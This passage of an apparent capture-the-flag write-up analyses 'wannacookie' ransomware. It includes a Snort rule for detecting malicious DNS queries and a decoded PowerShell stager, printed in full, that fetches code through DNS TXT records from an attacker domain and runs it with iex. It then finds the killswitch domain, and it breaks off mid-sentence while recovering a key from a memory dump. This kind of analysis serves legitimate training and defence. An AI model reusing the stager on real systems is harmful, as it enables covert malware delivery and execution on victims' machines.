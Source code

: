 Looking at a few more examples, we see that the query is always 56 characters long with first 1-3 digits followed by a separator and about 40 hex characters.
We can then write the following Snort rule to match these queries

```shell
$ cat /etc/snort/rules/local.rules 
alert udp any any <> any 53 (msg:"DNS Malware"; sid:1000001; pcre:"/.*[0-9A-F]{1,4}.[A-F0-9]{35,42}/"; rev:2;) 
```

### Part 2 - Identify the Domain

In the "docm" file we can extract the embedded VBA code which contains a compressed and base 64 converted snippet of code.
Decoding it gives the inner payload.

```shell
$ echo "lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG" | base64 -d > vba_payload.dat
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00" |cat - vba_payload.dat|gunzip --
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o}; $f = "77616E6E61636F6F6B69652E6D696E2E707331"; $h = ""; foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {$h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; iex($(H2A $h | Out-string))
```

Which gives us the domain the malware is communicating with: "erohetfanu.com".

### Part 3 - Stop the Malware

The inner payload is a stager which uses the remote domain for downloading another file "wannacookie.min.ps1" and running it.
Using the same Powershell code we can download the uncompressed "wannacookie.ps1" file and read the source code.
There is a suspicious string in the code and again by using the powershell code we can decode it.

```powershell
$ echo $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings)))
yippeekiyaa.aaay
```

This gives us the killswitch domain that we can register (Support Marcus Hutchins): yippeekiyaa.aaay

### Part 4 - Recover Alabaster's Password

From the zip file, we get Alabaster's encrypted passwords database and a memory dump of the powershell process.
By analyzing the source code, we see that the malware generates a secret key, downloads a public key from the server, encrypts the secret key with the public key and uplaods it to the server.
Usung powerdump we can search for Powershell variables in memory. By downloading the same public key "server.crt" and encrypting a dummy value we can see that the encrypted key is 512 characters.
With this info we can search in powerdump for variables of roughly that length which gives is a few results. All of them are code blocks except one which has the following value:
